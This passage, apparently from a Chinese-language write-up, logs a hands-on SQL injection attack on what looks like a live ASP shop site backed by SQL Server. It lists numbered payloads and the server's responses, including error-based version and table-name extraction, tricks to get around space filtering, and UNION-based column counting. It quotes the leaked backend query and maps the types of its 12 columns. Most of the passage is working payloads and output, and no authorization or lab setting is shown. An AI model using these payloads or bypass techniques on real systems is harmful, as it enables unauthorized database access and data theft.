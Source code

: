 看起來 `%20` 沒有被轉成空白，所以改用 `'OR'1'=CONVERT(int,@@version)AND'1'='1` 的方式，就不需要空白了

5. `'%20OR%20'1'%20=%20CONVERT(int,(SELECT%20table_name%20FROM%20information_schema.tables%20FOR%20XML%20PATH('')))%20AND%20'1'%20=%20'1`

404 頁面，我忘記空白符號會被切掉了

6. `'OR'1'%3DCONVERT(int%2C(SELECT%09table_name%09FROM%09information_schema.tables%09FOR%09XML%09PATH('')))AND'1'%3D'1`

```
Bad Request - Invalid URL
HTTP Error 400. The request URL is invalid.
```

7. `'OR'1'=CONVERT(int,(SELECT+table_name+FROM+information_schema.tables+FOR+XML+PATH('')))AND'1'='1`

404 頁面

8. `'OR'1'%3DCONVERT(int%2C(SELECT(table_name)FROM(information_schema.tables)FOR(XML)PATH('')))AND'1'%3D'1`

404 頁面

9. `'UNION(SELECT'a','b')--`

[Microsoft][ODBC SQL Server Driver][SQL Server]使用 UNION、INTERSECT 或 EXCEPT 運算子結合的所有查詢，其目標清單中的運算式數量必須相等。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')=''UNION(SELECT'a','b')--' and I.online=1 and I.State in ('1','2')
```

10. `'UNION(SELECT(NULL),(NULL),(NULL),(NULL),(NULL),(NULL),(NULL),(NULL),(NULL),(NULL),(NULL),(NULL))--`

```html
<font face="Arial" size="2"> <p>Microsoft VBScript 執行階段錯誤</p></font>
<font face="Arial" size="2">錯誤 '800a0009'</font>
<p>
  <font face="Arial" size="2">陣列索引超出範圍: '[number: 0]'</font>
</p>

<p>
  <font face="Arial" size="2">/Details.asp</font
  ><font face="Arial" size="2">, 行49</font>
</p>
```

看來應該是 12 個欄位，我們來觀察一下欄位的型別

```sql
select
I.partName, -- 字串
I.Id, -- 整數
I.Name as ItemName, -- 字串
C.Id as ClsId, -- 整數
C.Name as ClsName, -- 字串
CU.Id as ClsUpId, -- 整數
CU.Name as ClsUpName, -- 字串
O.Id as RoomId, -- 整數
O.Name as RoomName, -- 字串
I.ItemColorId, -- 整數
I.MinAmount, -- 整數
I.multipleLimit -- 整數
```
